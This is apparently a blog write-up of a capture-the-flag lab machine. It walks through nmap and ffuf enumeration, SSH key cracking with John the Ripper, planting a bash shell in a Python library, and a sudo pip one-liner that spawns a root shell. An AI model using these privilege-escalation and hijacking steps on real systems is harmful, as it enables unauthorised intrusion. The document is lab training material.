 ```yaml
---
layout: single
title: Writeup - Penetration Testing Phases: Scanning, Enumeration, and Exploitation
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-10-24
classes: wide
header:
  teaser: /assets/images/htb-writeup-writeup/pen_test_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - Penetration Testing
  #- Nmap
  #- ffuf
  #- Metasploit
---
```


![](/assets/images/htb-writeup-writeup/lupinone_logo.png)

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

```bash
nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5
## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

```bash
nmap -sV -p80 --script=http-enum 10.0.0.5
This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt
This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js
This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

### Decrypting the Hidden Message
The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash
John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash
The password P@55w0rd! is successfully retrieved.

### Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5
Finding the Flag
Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
Privilege Escalation
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l
A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

nano /usr/lib/python3.9/webbrowser.py
The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
Root Access
After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper